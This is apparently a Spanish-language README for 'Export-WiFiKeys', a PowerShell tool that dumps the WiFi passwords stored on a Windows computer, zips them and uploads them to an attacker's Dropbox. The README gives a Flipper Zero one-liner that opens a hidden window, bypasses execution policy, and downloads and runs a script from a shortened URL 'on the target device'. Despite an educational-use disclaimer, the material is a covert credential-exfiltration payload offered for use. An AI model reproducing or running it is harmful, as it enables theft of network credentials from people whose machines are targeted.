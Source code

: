 ```yaml
---

# **Export-WiFiKeys**

Este script de PowerShell exporta las contraseñas de las redes WiFi almacenadas en tu computadora, las guarda en archivos de texto, las comprime en un archivo ZIP y luego sube el archivo ZIP a Dropbox. Después de completar el proceso, los archivos temporales se eliminan.


---
```


## **Requisitos**

- PowerShell 5.0 o superior
- Acceso a Internet
- Una cuenta de Dropbox y un token de acceso a la API de Dropbox

## **Instalación**

1. Clona este repositorio o descarga los archivos necesarios.
2. Define tu token de acceso a Dropbox en el script antes de ejecutarlo:

    ```powershell
    $db = "tu_token_de_dropbox"
    ```

## **Uso**

### En Windows:

1. Abre PowerShell con permisos de administrador.
2. Navega al directorio donde se encuentra el script.
3. Ejecuta el script:

    ```powershell
    .\Export-WiFiKeys.ps1
    ```

El script realizará las siguientes acciones:

- Creará un directorio con la fecha y hora actual en tu carpeta de Documentos.
- Almacenará las contraseñas WiFi en archivos de texto dentro de este directorio.
- Comprimirá el directorio en un archivo ZIP.
- Subirá el archivo ZIP a tu cuenta de Dropbox.
- Eliminará los archivos temporales creados durante el proceso.

### En Flipper Zero:

1. **Carga el archivo `.txt` a tu Flipper Zero:**

    - Guarda el script de PowerShell en tu Flipper Zero.
    - Carga el script a través de la interfaz del dispositivo.

2. **Ejecuta el script:**

    - Abre una terminal en tu Flipper Zero y ejecuta el siguiente comando:

    ```bash
    powershell -w h -ep bypass $db='';irm https://goo.su/x3RyN | iex
    ```

Esto ejecutará el script de PowerShell en el dispositivo de destino, exportando las contraseñas WiFi y subiéndolas a tu cuenta de Dropbox.

---

## **Detalles del Script**

### **Export-WiFiKeys**

Esta función realiza los siguientes pasos:

1. Crea un directorio con la fecha y hora actual en la carpeta de Documentos del usuario.
2. Recoge las contraseñas de las redes WiFi almacenadas en el sistema y las guarda en archivos de texto en el directorio creado.
3. Comprime el directorio en un archivo ZIP.
4. Llama a la función `DropBox-Upload` para subir el archivo ZIP a Dropbox.
5. Elimina los archivos temporales creados durante el proceso.

### **DropBox-Upload**

Esta función realiza los siguientes pasos:

1. Toma la ruta del archivo fuente como parámetro.
2. Define los encabezados y parámetros necesarios para la solicitud a la API de Dropbox.
3. Usa `Invoke-RestMethod` para subir el archivo a Dropbox.

---

## **Notas**

- Asegúrate de tener suficiente espacio en tu cuenta de Dropbox para el archivo ZIP que se subirá.
- El script debe ejecutarse con permisos de administrador para acceder a las contraseñas WiFi almacenadas en el sistema.
- **Recuerda:** Este script también puede ser ejecutado desde un Flipper Zero, lo que lo hace útil para pruebas en entornos controlados.

---

## **Licencia**

Este proyecto está licenciado bajo los términos de la licencia MIT. Consulta el archivo `LICENSE` para más detalles.

---

**🚨 Descargo de Responsabilidad:**

El uso de este repositorio y los scripts contenidos en él es responsabilidad exclusiva del usuario. El autor de este proyecto **no se hace responsable** de cualquier daño, perjuicio o actividad ilegal que resulte del uso de estos scripts en entornos no autorizados o no controlados. Este proyecto debe ser utilizado únicamente con fines educativos y en entornos de pruebas con permisos explícitos. El uso indebido de este código puede estar sujeto a acciones legales. El usuario es responsable de cumplir con todas las leyes locales y regulaciones aplicables.

---
